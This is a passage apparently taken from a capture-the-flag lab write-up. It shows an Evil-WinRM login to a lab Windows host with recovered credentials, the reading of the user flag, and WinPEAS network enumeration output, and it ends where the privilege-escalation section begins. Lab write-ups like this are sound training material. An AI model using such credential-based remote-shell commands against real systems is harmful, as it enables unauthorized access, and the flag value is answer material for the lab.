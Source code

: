 
We go the password, now we can login using Evil-WinRM.

```
⛩\> evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\tony\Documents> cat ../Desktop/user.txt
3a187084857373c1c90c851f87ea44e0
```

# Privilege Escalation

Let’s run WinPeas.

```
Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               135           0.0.0.0               0               Listening         712             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               3389          0.0.0.0               0               Listening         1092            svchost
  TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               49408         0.0.0.0               0               Listening         448             wininit
  TCP        0.0.0.0               49409         0.0.0.0               0               Listening         884             svchost
  TCP        0.0.0.0               49410         0.0.0.0               0               Listening         844             svchost
  TCP        0.0.0.0               49411         0.0.0.0               0               Listening         1172            spoolsv
  TCP        0.0.0.0               49412         0.0.0.0               0               Listening         564             services
  TCP        0.0.0.0               49413         0.0.0.0               0               Listening         572             lsass
  TCP        10.10.11.106          80            10.10.14.98           61193           Established       4               System
  TCP        10.10.11.106          80            10.10.14.98           61208           Time Wait         0               Idle
  TCP        10.10.11.106          139           0.0.0.0               0               Listening         4               System
  TCP        10.10.11.106          5985          10.10.14.30           45402           Time Wait         0               Idle
  TCP        10.10.11.106          5985          10.10.14.30           45404           Established       4               System
```
